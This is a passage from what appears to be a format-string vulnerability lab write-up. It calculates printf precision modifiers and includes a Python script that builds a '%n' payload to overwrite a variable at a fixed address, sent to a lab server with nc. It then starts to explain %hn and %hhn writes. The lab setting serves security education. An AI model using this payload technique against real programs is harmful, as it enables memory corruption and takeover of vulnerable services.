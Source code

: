 For this task, I need to determine the total number of characters I would need to print for each precision modifier.
- 0x5000 = 20480
- The offset is 64, and will contain multiple format specifiers:
  - we need one for the %n% format specifier
  - we need one for the modulo number precision modifier for %x
  - we need 64 - 2 for the whole number precision modifier for %x
- The first 4 bytes are where I would store the target variable's address.
  - 20480 - 4 = 20476
- The whole number precision modifier for %x:
  - 20476 // 62 = 330
- The modulo number precision modifier for %x:
  - 20476 % 62 = 16
 
To verify our math, 4 + (330 x 62) + 16 = 20480 = 0x5000

```python
#!/usr/bin/python3
import sys

# Start input with the memory address of the target variable
content = (0x080e5068).to_bytes(4,byteorder='little')

# Append format specifiers to prevent the program from crashing
content += ("%.330x" * 62).encode('latin-1')
content += ("%.16x").encode('latin-1')

# Access 0x080e5068 and overwrite it's content
content += ("%n").encode('latin-1')

# Append a newline
content += ("\n").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```

```bash
python3 badfile.py
cat badfile | nc -w2 10.9.0.5 9090
```

![task-3-b](https://github.com/iukadike/blog/assets/58455326/ad7456ff-68ba-446d-95a7-14d83bd10c22)


#### Changing the value to 0xAABBCCDD.

In this task, the target value is a large number. This value is the total number of characters that are printed out by the printf() function. Printing out this large number of characters may take hours. A faster approach is to use %hn or %hhn instead of %n, so we can modify a two-byte (or one-byte) memory space instead of four bytes.
